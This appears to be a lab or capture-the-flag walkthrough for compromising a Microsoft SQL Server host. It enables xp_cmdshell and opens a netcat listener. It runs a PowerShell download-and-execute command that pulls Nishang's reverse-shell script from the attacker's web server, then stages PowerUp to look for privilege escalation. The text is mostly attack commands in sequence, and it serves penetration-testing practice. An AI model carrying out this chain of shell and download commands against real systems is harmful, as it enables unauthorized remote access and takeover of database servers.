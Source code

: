
#Just like before we are going to change the config to allow changes and the allow the cmdshell execution.

sp_configure "show advanced options", 1

reconfigure

sp_configure "xp_cmdshell", 1

reconfigure

#Then we can execute commands from within the SQL server.

xp_cmdshell "whoami"
xp_cmdshell "ipconfig"

#we are going to invoke a tcp reverse shell with powershell. For that we will use Nishang's invoke-powershelltcp.ps1 from the repo.

https://github.com/samratashok/nishang/tree/master/Shells

# we donwload the script and add a line at the end of the script (which is part of the examples inside the script). That line will tell the machine to run a reverse shell to our machine. So we set a NC client wtih rlwrap to use ctrl+L and other advanced features,set a python webserver and send the command inside the machine to download our script and interpret it.

sudo rlwrap nc -nlvp 443

sudo python -m http.server 80

xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.3/ps.ps1\")"

# If we press ctlr+c the shell would die, we could use the conPtYshell script from github to avoid that. Not a necessary step.

https://github.com/antonioCoco/ConPtyShell

#We should get the interactive console, move to the folder to get the first flag or do a recursive search to find it.

cmd /c dir /r /s user.txt

#we check the access we have. We will see SeImpersonatePrivilege that is a potential way to scalate.

whoami /priv

#we are going to use the powerup script. Modify the script at the end to invoke all checks. This will check with all functions in the script to see more potential ways to scalate.

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

# again we set up the webserver and ask to donwload/interpret it.
